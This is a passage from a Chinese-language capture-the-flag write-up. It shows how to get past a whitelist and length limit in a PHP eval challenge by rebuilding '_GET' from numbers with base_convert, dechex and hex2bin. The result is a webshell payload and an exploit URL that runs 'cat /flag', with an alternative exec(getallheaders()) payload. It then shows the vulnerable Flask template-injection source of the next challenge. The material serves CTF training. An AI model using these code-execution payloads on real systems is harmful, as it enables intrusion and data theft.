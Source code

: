 因为高于十进制的话含有字母, 就需要加引号了, 而引号会被过滤, 三十六进制是方便字母的转换 (0-9 a-z 数量加起来是 36)

另外还需要注意的是 dechex 和 hex2bin 这个函数, 因为 base_convert 只能转换 0-9 a-z, 特殊字符例如空格和 `$` 之类的符号转换的时候会丢失, 而利用两个函数可以把任意字符串转换成十六进制, 然后再转换成纯数字的十进制

自己一开始的思路是构造 system 执行命令, 不过执行 `cat /flag` 就超出长度限制了...

后来想了想必须要尽可能的缩减 payload, 一个很好的例子就是形如 `$_GET[0]($_GET[1])` 这种 webshell

两个 `$_GET` 可以用同一个变量表示, `[]` 可以用 `{}` 绕过

下面就是如何构造 `_GET` 了, 思路把原始字符串先 bin2hex 然后 hexdec

```php
echo hex2bin(dechex(1598506324)); // _GET
```

dechex 在白名单里面, 而 hex2bin 需要我们手动构造 (利用 base_convert)

```php
echo base_convert(37907361743,10,36); // hex2bin
```

之后需要引入一个变量来作为函数执行, 例如 `$a()`, 我们用 `$pi` 以绕过白名单的检测

payload 如下

```php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{0})($$pi{1});
```

然后传参 0 1 获取 flag

```
http://f91dae26-bec7-4887-8f52-d087acfcec50.node4.buuoj.cn:81/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{0})($$pi{1});&0=system&1=cat /flag
```

wp 看到的其它思路

```php
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1}) // exec(getallheaders(){1})
```

还有通过三角函数进行位运算得到 `*` 然后直接 `cat /f*`, 这里就不写了...

## [WesternCTF2018]shrine

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['\{\{\% set {}=None \%\}\}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


```